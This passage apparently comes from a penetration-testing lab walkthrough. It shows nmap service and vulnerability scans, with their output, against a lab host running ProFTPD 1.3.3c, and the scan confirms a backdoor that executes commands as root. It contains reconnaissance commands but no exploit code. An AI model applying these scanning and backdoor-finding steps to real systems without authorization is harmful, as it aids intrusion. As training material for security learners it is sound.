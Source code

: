 #### **Why This Matters:**
Before attempting any exploitation, we must confirm the target is accessible and responsive to network requests.

---

### **Step 2: Discover Target Services**

**What We're Doing:** Scanning for available services and potential vulnerabilities

#### **Command Used:**
```bash
nmap -sS -sV demo.ine.local
```

#### **What Happened:**
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-10 08:38 IST
Nmap scan report for demo.ine.local (192.70.114.3)
Host is up (0.00021s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
MAC Address: 02:42:C0:46:72:03 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 0.29 seconds
```

#### **🔍 What This Tells Us:**
- **FTP service running** on port 21
- **ProFTPD version 1.3.3c** (potentially vulnerable version)
- **Unix-based system** as the target operating system
- **Single open service** making this a focused attack

#### **Attack Strategy:**
The ProFTPD 1.3.3c version is known to have security vulnerabilities. We'll check for specific exploits targeting this version.

---

### **Step 3: Check for Known Vulnerabilities**

**What We're Doing:** Using Nmap scripts to identify specific security weaknesses

#### **Command Used:**
```bash
nmap --script vuln -p 21 demo.ine.local
```

#### **What Happened:**
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-10 08:38 IST
Nmap scan report for demo.ine.local (192.70.114.3)
Host is up (0.00029s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-proftpd-backdoor:
|   This installation has been backdoored.
|   Command: id
|   Results: uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
MAC Address: 02:42:C0:46:72:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 7.26 seconds
```